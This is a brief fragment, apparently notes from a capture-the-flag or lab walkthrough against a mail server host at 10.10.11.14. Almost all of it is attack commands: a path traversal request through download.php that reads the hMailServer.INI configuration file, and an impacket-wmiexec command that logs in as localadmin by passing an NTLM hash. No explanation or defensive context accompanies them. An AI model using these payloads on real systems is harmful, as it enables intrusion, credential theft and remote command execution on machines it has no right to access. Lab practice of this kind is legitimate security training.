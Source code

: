 imap
pop3 y **SMTP**

download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI

impacket-wmiexec localadmin@10.10.11.14 -hashes aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae

